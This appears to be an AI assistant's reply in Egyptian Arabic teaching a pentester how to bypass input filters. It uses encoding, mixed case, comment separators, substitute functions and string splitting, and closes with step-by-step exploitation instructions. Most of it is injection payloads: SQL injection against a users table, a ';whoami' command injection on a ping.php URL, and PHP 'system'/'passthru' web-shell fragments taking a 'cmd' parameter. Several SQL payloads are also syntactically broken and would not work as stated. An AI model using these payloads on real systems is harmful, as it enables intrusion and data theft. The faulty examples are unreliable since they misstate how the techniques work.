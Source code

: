 تمام، هنشرح **تقنيات تجاوز فلاتر الإدخال** (Bypassing Input Filters) بعمق عملي مع أكواد وتفاصيل، وهنركز على الجوانب اللي تهمك كـ pentester. هقسم الموضوع لأجزاء عن التقنيات المختلفة، وبعد كل جزء هحط خلاصة طريفة بالعامية المصرية، وفي الآخر هقدم خطوات عملية للاستغلال. يلا نبدأ!

---

### **1. استخدام التشفير (Encoding)**
#### **إيه هو؟**
لو الفلتر بيمنع حروف زي `'` أو `;`، تقدر تشفر الكود بطرق زي URL Encoding أو Base64 عشان يعدي الفلتر ويتفسر بعدين.

#### **ازاي بيشتغل؟**
بتحول الأوامر لصيغة مشفرة، والسيرفر لما يفكها بينفذها عادي لو الفلتر مش بيفحص بعد الفك.

#### **مثال عملي:**
- لو الفلتر بيمنع `;whoami`:
  استخدم URL Encoding:
  ```
  127.0.0.1%3Bwhoami
  ```
  (%3B هو `;` مشفر). لو نجح:
  ```
  http://example.com/ping.php?ip=127.0.0.1%3Bwhoami
  ```

- لو بيمنع كلمة `SELECT`:
  استخدم Hex:
  ```
  0x53454c454354 (يعني SELECT)
  ```
  ```
  ' UNION 0x53454c454354 1, username FROM users --
  ```

#### **خلاصة طريفة:**
تخيل إنك بتكلم البواب بلغة مشفرة "افتحلي الباب بكود سري"، لو فك الكود وفتح، يبقى هو اللي ساعدك تدخل!

---

### **2. تغيير حالة الحروف (Case Variation)**
#### **إيه هو؟**
بعض الفلاتر بتبحث عن كلمات بصيغة معينة (زي `select` صغير)، فتقدر تستخدم حروف كبيرة أو مختلطة عشان تتخطاها.

#### **ازاي بيشتغل؟**
بتكتب الأوامر بحروف كبيرة أو صغيرة بطريقة مختلفة عن اللي الفلتر متوقعها.

#### **مثال عملي:**
- لو الفلتر بيمنع `select`:
  جرب:
  ```
  ' UNION SeLeCt 1, username FROM users --
  ```
  لو نجح، يبقى الفلتر حساس للحالة.

- لو بيمنع `system` في PHP:
  ```
  SyStEm($_GET['cmd'])
  ```

#### **خلاصة طريفة:**
تخيل إنك بتقول لصاحبك "افتح الباب" بصوت عالي ومنخفض، لو فتحلك لما تقول "AfTaH"، يبقى هو بيسمعك بطريقته!

---

### **3. استخدام تعليقات أو مسافات بديلة**
#### **إيه هو؟**
لو الفلتر بيمنع مسافات أو كلمات متتالية، تقدر تستبدل المسافات بحاجات زي تعليقات (`/**/`) أو تباعد مختلف.

#### **ازاي بيشتغل؟**
بتفصل الكود بطرق الفلتر مش بيفهمها، لكن السيرفر بيقدر يفسره.

#### **مثال عملي:**
- لو الفلتر بيمنع `UNION SELECT`:
  جرب:
  ```
  ' UNION/**/SELECT 1, username FROM users --
  ```
- لو بيمنع مسافات:
  ```
  'UNION{newline}SELECT{newline}1,username{newline}FROM{newline}users--
  ```
  (حط Enter بدل {newline}).

#### **خلاصة طريفة:**
تخيل إنك بتقول للبواب "افتح — الباب" وتسكت ثانية بين الكلمتين، لو فتحلك يبقى هو بيفهمك حتى لو بطيء!

---

### **4. استخدام كلمات بديلة أو دوال**
#### **إيه هو؟**
لو الفلتر بيمنع كلمة معينة (زي `SELECT`)، تقدر تستخدم دوال أو تعبيرات بديلة تعمل نفس الشغل.

#### **ازاي بيشتغل؟**
بتستبدل الأمر بحاجة السيرفر بيفهمها بنفس المعنى، لكن الفلتر مش بيكتشفها.

#### **مثال عملي:**
- لو `SELECT` ممنوع:
  جرب:
  ```
  ' UNION ALL CONCAT(username) FROM users --
  ```
- لو `system` ممنوع:
  ```
  passthru($_GET['cmd'])
  ```

#### **خلاصة طريفة:**
تخيل إنك بتقول لصاحبك "مش هقولك افتح الباب، لكن زق الباب بإيدك"، لو زقه وفتح يبقى كده عديت الحراسة!

---

### **5. تقسيم الأوامر (String Concatenation)**
#### **إيه هو؟**
لو الفلتر بيمنع كلمة كاملة، تقدر تقسمها لأجزاء وتجمعهم في الاستعلام.

#### **ازاي بيشتغل؟**
بتستخدم دالة زي `CONCAT` أو `+` عشان تبني الأمر من جديد بعد الفلتر.

#### **مثال عملي:**
- لو `SELECT` ممنوع:
  ```
  ' UNION 'SEL' + 'ECT' 1, username FROM users --
  ```
- لو `whoami` ممنوع:
  ```
  http://example.com/ping.php?ip=127.0.0.1;w'hoa'mi
  ```

#### **خلاصة طريفة:**
تخيل إنك بتقول لصاحبك "افتح الباب"، لكن تقول "اف" و"تح" منفصلين، لو فهمك وفتح يبقى هو اللي ساعدك تتسحب!

---

### **خطوات عملية للاستغلال كـ Pentester**
1. **اختبار التشفير:**
   - جرب:
     ```
     127.0.0.1%3Bwhoami
     ```
     أو:
     ```
     ' UNION 0x53454c454354 1, username FROM users --
     ```

2. **اختبار حالة الحروف:**
   - استخدم:
     ```
     ' UnIoN SeLeCt 1, username FROM users --
     ```

3. **اختبار التعليقات:**
   - جرب:
     ```
     ' UNION/**/SELECT 1, username FROM users --
     ```

4. **اختبار الكلمات البديلة:**
   - لو SQL:
     ```
     ' UNION ALL CONCAT(username) FROM users --
     ```
   - لو Command:
     ```
     passthru($_GET['cmd'])
     ```

5. **اختبار التقسيم:**
   - جرب:
     ```
     ' UNION 'SEL' + 'ECT' 1, username FROM users --
     ```
   - أو:
     ```
     127.0.0.1;w'hoa'mi
     ```

#### **نصيحة:**
- استخدم Burp Suite عشان تجرب الـ Payloads دي يدويًا وتشوف رد السيرفر.
- لو بتستخدم أدوات زي sqlmap أو Commix، جرب `--tamper` (مثل `--tamper=space2comment`).

---

ها، عايز أشرح حاجة زيادة زي أنواع `--tamper` في sqlmap أو أجرب معاك مثال معين؟